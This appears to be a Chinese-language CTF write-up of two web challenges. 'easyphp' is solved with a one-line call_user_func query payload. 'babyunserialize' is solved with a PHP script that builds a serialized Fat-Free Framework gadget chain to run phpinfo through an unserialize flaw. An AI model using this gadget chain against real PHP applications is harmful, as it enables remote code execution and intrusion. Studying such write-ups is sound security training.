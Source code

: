 ![img](https://soreatu-1300077947.cos.ap-nanjing.myqcloud.com/uPic/mT1BGUkhIgLFD5a.png)

## Web

### easyphp

`?a=call_user_func&b=pcntl_wait`

### babyunserialize

- `www.zip`源码泄露，很像wmctf的webweb，但是官方wp的链没法用，因为源码相对于原题修改了些地方，网上找了下，找到了这个博客`http://blog.ccreater.top/2020/08/04/wmctf2020/`
- 里面有一条能用的链,用它来运行phpinfo

```php
<?php
namespace DB{
    abstract class Cursor  implements \IteratorAggregate {}
}


namespace DB\SQL{
    class Mapper extends \DB\Cursor{
        protected
            $props=["quotekey"=>"phpinfo"],
            $adhoc=["16"=>["expr"=>""]],
            $db;
        function offsetExists($offset){}
        function offsetGet($offset){}
        function offsetSet($offset, $value){}
        function offsetUnset($offset){}
        function getIterator(){}
        function __construct($val){
            $this->db = $val;
        }
    }
}
namespace CLI{
    class Agent {
        protected
            $server="";
        public $events;
        public function __construct(){
            $this->events=["disconnect"=>array(new \DB\SQL\Mapper(new \DB\SQL\Mapper("")),"find")];
            $this->server=&$this;


        }
    };
    class WS{}
}
namespace {
    echo urlencode(serialize(array(new \CLI\WS(),new \CLI\Agent())));
}
```
